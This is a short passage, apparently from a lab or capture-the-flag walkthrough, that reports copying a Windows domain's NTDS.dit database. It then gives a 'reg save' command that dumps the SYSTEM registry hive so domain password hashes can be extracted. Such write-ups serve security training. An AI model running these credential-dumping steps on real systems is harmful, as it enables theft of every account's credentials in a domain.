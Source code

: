 ![image.png](/assets/images/Baby_VL/image%2023.png)

**Successfully** copied **NTDS.dit** database from **E drive**.

Now we save the system hive too using registry editor.

```powershell
reg save hklm\system c:\users\caroline.robinson\documents\system.hive
```

![image.png](/assets/images/Baby_VL/image%2024.png)
